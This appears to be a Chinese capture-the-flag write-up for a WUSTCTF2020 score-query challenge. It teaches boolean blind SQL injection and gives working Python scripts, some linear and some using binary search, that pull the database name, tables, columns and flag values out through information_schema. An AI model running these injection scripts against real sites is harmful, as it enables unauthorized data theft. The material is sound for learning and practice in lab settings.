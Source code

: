 # [WUSTCTF2020]颜值成绩查询 布尔注入二分法

这道题很简单 就是sql注入

我们来学习一下如何写盲注脚本

```cobol
?stunum=1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c944162ec41ecccbe2e56f9d1c310660.png" alt="" style="max-height:355px; box-sizing:content-box;" />


```cobol
?stunum=123
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/1c20f72032410ce3576967633dc213de.png" alt="" style="max-height:281px; box-sizing:content-box;" />


正确回显 100  错误 显示 not 。。。

这里很显然就是盲注了

我们来写个语句查询

```lisp
if(ascii(substr(database(),1,1))>1,1,0)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fa91b813a22709d83dd840c03d829d3f.png" alt="" style="max-height:170px; box-sizing:content-box;" />


发现回显了 我们可以开始编写脚本跑了

```cobol
import requests
import time
 
base_url="http://6199a6c3-30ca-4b13-955a-23ee81146566.node4.buuoj.cn:81/?stunum="
data=''
 
for i in range(1,200):   #位数
    for j in range(1,128):    #ascii码值
        payload = "if(ascii(substr(database(),{},1))={},1,0)".format(i,j)
        r=requests.get(url=base_url+payload)
        if(r.status_code==429):   #设置睡眠
            time.sleep(0.5)
        if r"Hi admin, your score is: 100" in r.text:   #设置成功条件
            data+=chr(j)
            print(data)
```

database=ctf

接下来就是爆破表和字段了

```cobol
if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)="ctf"),1,1))>1,1,0)
```

table_name=flag

回显了 就拿这个去咯

字段

```cobol
if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag'),1,1)>1,1,0)
```

cloumn=flag,value

```lisp
if(ascii(substr((select(group_concat(flag,value))from(ctf.flag)),1,1))>1,1,0)
```

最后的成品是这样

```cobol
import requests
import time
 
base_url="http://6199a6c3-30ca-4b13-955a-23ee81146566.node4.buuoj.cn:81/?stunum="
data=''
 
for i in range(1,200):   #位数
    for j in range(1,128):    #ascii码值
        payload = "if(ascii(substr(database(),{},1))={},1,0)".format(i,j)
        payload2 = 'if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)="ctf"),{},1))={},1,0)'.format(i,j)
        payload3="if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag'),{},1))={},1,0)".format(i,j)
        payload4="if(ascii(substr((select(group_concat(value))from(ctf.flag)),{},1))={},1,0)".format(i,j)
        r=requests.get(url=base_url+payload4)
        if(r.status_code==429):   #设置睡眠
            time.sleep(0.5)
        if r"Hi admin, your score is: 100" in r.text:   #设置成功条件
            data+=chr(j)
            print(data)
```

但是很慢

我们使用二分法来写一遍

```cobol
import requests
 
base_url="http://6199a6c3-30ca-4b13-955a-23ee81146566.node4.buuoj.cn:81/?stunum="
data=''
payload="if(ascii(substr(database(),{},1))>{},1,0)"
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        payload1=payload.format(i,mid)
        r = requests.get(url=base_url+payload1)
        if "Hi admin, your score is: 100" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 132):
        break
    data+=chr(mid)
    print(data)
```

爆破出数据库

最后脚本

```cobol
import requests
 
base_url="http://6199a6c3-30ca-4b13-955a-23ee81146566.node4.buuoj.cn:81/?stunum="
data=''
payload="if(ascii(substr(database(),{},1))>{},1,0)"
payload2="if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='ctf'),{},1))>{},1,0)"
payload3="if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag'),{},1))>{},1,0)"
payload4="if(ascii(substr((select(group_concat(flag,'---',value))from(ctf.flag)),{},1))>{},1,0)"
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        payload1=payload4.format(i,mid)
        r = requests.get(url=base_url+payload1)
        if "Hi admin, your score is: 100" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 132):
        break
    data+=chr(mid)
    print(data)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9ab2b1bcbde67224dd95563d4c9dc95e.png" alt="" style="max-height:180px; box-sizing:content-box;" />